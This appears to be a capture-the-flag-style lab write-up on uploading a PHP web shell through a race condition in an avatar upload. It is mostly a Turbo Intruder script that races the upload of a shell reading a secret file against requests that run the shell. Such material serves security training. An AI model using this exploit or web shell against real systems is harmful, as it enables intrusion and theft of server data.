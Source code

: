 # Web shell upload via race condition
Solution:
- Files are uploaded at `/files/avatars/`
- We can only upload png and jpg files.
- The files are being checked by the server if it contains viruses or not. During this checking, the file is actually present in the system for a few milliseconds.
- We use TurboIntruder to quickly request the POST (to submit webshell) and GET (to execute the webshell) requests. Select the two requests in burp proxy history and send to turbo intruder.
```python
def queueRequests(target, wordlists):
    engine = RequestEngine(endpoint=target.endpoint,
                           concurrentConnections=10,
                           )

    request1 = '''POST /my-account/avatar HTTP/1.1
Host: ac8d1f031e35f169c028a6f800a8006a.web-security-academy.net
Cookie: session=uWtrh3v8yyFY6a817tQEwzzTUne73AWU
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: multipart/form-data; boundary=---------------------------18497457955814865612237312216
Content-Length: 556
Origin: https://ac8d1f031e35f169c028a6f800a8006a.web-security-academy.net
Referer: https://ac8d1f031e35f169c028a6f800a8006a.web-security-academy.net/my-account
Upgrade-Insecure-Requests: 1
Te: trailers
Connection: close

-----------------------------18497457955814865612237312216
Content-Disposition: form-data; name="avatar"; filename="shell.php"
Content-Type: application/x-php

<?php echo file_get_contents('/home/carlos/secret'); ?>

-----------------------------18497457955814865612237312216
Content-Disposition: form-data; name="user"

wiener
-----------------------------18497457955814865612237312216
Content-Disposition: form-data; name="csrf"

zs1i3g6ilutOgBMw12X4edsmsOuYwe53
-----------------------------18497457955814865612237312216--
'''
    request2 = '''GET /files/avatars/shell.php HTTP/1.1
Host: ac8d1f031e35f169c028a6f800a8006a.web-security-academy.net
Cookie: session=uWtrh3v8yyFY6a817tQEwzzTUne73AWU
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Upgrade-Insecure-Requests: 1
Te: trailers
Connection: close

'''
    
    # the 'gate' argument blocks the final byte of each request until openGate is invoked
    engine.queue(request1, gate='race1')
    for i in range(5):
        engine.queue(request2, gate='race1')
        #engine.queue(target.req, target.baseInput, gate='race1')

    # wait until every 'race1' tagged request is ready
    # then send the final byte of each request
    # (this method is non-blocking, just like queue)
    engine.openGate('race1')

    engine.complete(timeout=60)


def handleResponse(req, interesting):
    table.add(req)

```
